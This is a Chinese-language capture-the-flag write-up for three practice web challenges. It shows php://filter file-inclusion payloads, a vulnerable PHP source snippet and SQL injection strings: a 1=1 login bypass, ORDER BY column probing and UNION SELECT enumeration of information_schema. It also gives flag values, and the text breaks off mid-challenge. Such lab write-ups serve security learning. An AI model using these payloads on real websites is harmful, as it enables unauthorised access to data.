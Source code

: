 # [ACTF2020 新生赛]Include

点击“tips”，跳转至`http://7fcf6d87-1365-4b78-bba9-5bf97d11ffd1.node3.buuoj.cn/?file=flag.php`，回显为“Can you find out the flag?”，因为题目名称为“Include”，推测为文件包含，用`php://协议`读取文件，构造`payload：?file=php://filter/read=convert.base64-encode/resource=flag.php`，得到base64编码的字符串，解码得到flag

```php
<?php
echo "Can you find out the flag?";
//flag{b2c49a7e-a49e-4299-b9d1-c045d1b193c6}
```

# [极客大挑战 2019]Secret File

题目为“Secret File”，网页上回显得内容为“你想知道蒋璐源的秘密么？想要的话可以给你，去找吧！把一切都放在那里了！”，说明要找到一个秘密文件。

查看源码，发现一个链接`./Archive_room.php`，后面还有“Oh！You found me”，说明这就是我们要找的文件。

访问链接，看到“SECRET”的点击事件，点击跳转，回显为“查阅结束，没看清么？回去再仔细看看吧。”，显然这里存在一个重定向，用BP抓包，提示`secr3t.php`，访问该文件，得到php代码并进行代码审计

```php
<?php
    highlight_file(__FILE__);
    error_reporting(0);
    $file=$_GET['file'];
    if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
        echo "Oh no!";
        exit();
    }//对$file进行了过滤，不存在"../"，"tp"，"input"，"data"
    include($file); 
//flag放在了flag.php里
?>
```

直接访问文件，没有回显flag，然后伪协议构造`payload：secr3t.php?file=php://filter/convert.base64-encode/resource=flag.php`，base64解码得到的字符串，在其中拿到flag

# [极客大挑战 2019]LoveSQL

老规矩，尝试`username=1' &password=1`，回显为SQL语句报错，存在注入，输入`username=1' or 1=1# &password=1`，成功登入，得到`admin`的账号密码。然后尝试用`order by`爆一下字段数，但输入`username=1' order by 1# &password=1`时，回显为未输入账号密码，后来去查了才知道，因为之前在页面上输入是`$_GET`获取的数据，会进行url编码，后来我是在url里直接输入，导致出错。

改正错误后，发现用`1`作为账号不行(应该不存在1这个账号)，于是用admin登录，`username=admin' order by 4%23`时，SQL语句报错，说明只有3个字段。

然后联合注入，爆数据库`username=1' union select 1,2,database()%23`，库名为“geek”这里用`1`是因为要让前面的查询不存在，使回显为我们控制的语句。

爆表名，表名为“geekuser,l0ve1ysq1”

```
username=1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()%23
```
